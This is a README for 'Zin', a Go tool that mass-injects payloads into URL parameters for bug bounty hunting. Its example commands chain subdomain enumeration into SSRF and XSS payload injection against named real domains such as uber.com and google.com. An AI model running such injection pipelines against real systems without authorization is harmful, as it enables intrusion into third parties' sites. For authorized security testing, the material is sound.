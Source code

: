 ![alt text](https://upload.wikimedia.org/wikipedia/commons/9/9a/Filled_Syringe_icon.svg)
##### Version 1.0

# 😎 Zin 😎
**A Payload Injector for bugbounties written in go**



[![Image from Gyazo](https://i.gyazo.com/d305459fe752bba0dd853e63fe81d7f1.gif)](https://gyazo.com/d305459fe752bba0dd853e63fe81d7f1)

### Features

- Inject multiple payloads into all parameters
- Inject single payloads into all parameters
- Saves responses into output folder
- Displays Status Code & Response Length
- Can grep for patterns in the response
- Really fast
- Easy to setup


### New Features
-✅ Pattern Matching in responses 

-✅ Match Status Codes

### Arguments
```
      _
     (_)
  _____ _ __
 |_  / | '_ \
  / /| | | | |
 /___|_|_| |_|


May the bounties come


  -c int
        the concurrency (default 20)
  -g string
        grep the response for any matches
  -p string
        the payload to be used
  -pL string
        the list of payloads to be used
  -s int
        filter by status codes (default 200)
        
```


## Install

**`$ git clone https://github.com/ethicalhackingplayground/Zin && cd Zin && go build`**



### SSRF Example
**`$ subfinder uber.com | gau | grep "=http" | ./Zin -c 80 -p http://10.82.214.84:31386/foobar.js -g "SUP3R_S3cret_1337_K3y"`**

### XSS Example

**`$ subfinder uber.com | gau| ./Zin -c 80 -p '"><script>alert(matchforthis)script>' -g "matchforthis"`**


### Inject Multiple Payloads
**`$ cat hosts | gau | grep "&" | ./Zin -c 80 -pL <payloadfile>`**

### Subdomain Scanning

**`$ subfinder -dL domains --silent | gau | ./Zin -c 80 -p <payload>`**


### Only Test Parameters

**`$ echo "google.com" | gau | grep "&" | ./Zin -c 80 -p '"><script>alert(matchthis)</script<"' -g "matchthis" `**

### Multiple Hosts

**`$ cat hosts | gau | ./Zin -c 80 -p <payload>`**


**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

